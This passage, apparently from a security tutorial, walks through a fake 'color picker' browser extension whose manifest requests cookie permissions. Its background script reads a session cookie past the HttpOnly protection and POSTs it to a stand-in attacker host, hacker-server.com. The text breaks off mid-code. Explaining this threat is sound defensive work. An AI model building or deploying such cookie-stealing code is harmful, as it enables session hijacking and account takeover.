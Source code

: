## Step 1: The Trust Agreement (The manifest.json)

Every extension declares its needs in a manifest file. This is where the request for privileges is made.

```json
{
  "manifest_version": 3,
  "name": "Super Color Picker",
  "version": "1.0",
  "description": "Find the code for any color on your screen!",
  "background": {
    "service_worker": "background.js"
  },
  "permissions": [
    "cookies", // Permission to access the Cookie API
    "activeTab" // Permission to interact with the active tab
  ],
  "host_permissions": [
    "*://*.your-ecommerce.com/", // Specific permission for your site
    "*://*.company-dashboard.com/"
  ]
}
```

The user sees a request that seems reasonable for the extension's functionality and grants the permissions. They've given the extension the master key to read cookies on the specified domains.

## Step 2: The Behind-the-Scenes Action (The background.js)

```javascript
// Inside the extension's background.js

const TARGET_DOMAIN = "https://company-panel.com";
const COOKIE_NAME = "session_id"; // The name of your application's session cookie

// This function is called when the user accesses the target site
async function extractCookie() {
  try {
    // The chrome.cookies.get API has privileges to access cookies,
    // bypassing the HttpOnly restriction that applies only to page scripts.
    const cookie = await chrome.cookies.get({
      url: TARGET_DOMAIN,
      name: COOKIE_NAME,
    });

    if (cookie) {
      console.log("Session cookie successfully intercepted.");
      const token = cookie.value;

      // Send the token to a remote server controlled by the attacker
      fetch(`https://hacker-server.com/collector`, {
        method: "POST",
        headers: { "Content-Type": "application/json" },
        body: JSON.stringify({ domain: TARGET_DOMAIN, sessionToken: token }),
      });
    }
  } catch (error) {
    console.error("Error accessing cookie:", error);
  }
}

// Add a "listener" that triggers the function when the tab is updated
chrome.tabs.onUpdated.addListener((tabId, changeInfo, tab) => {
```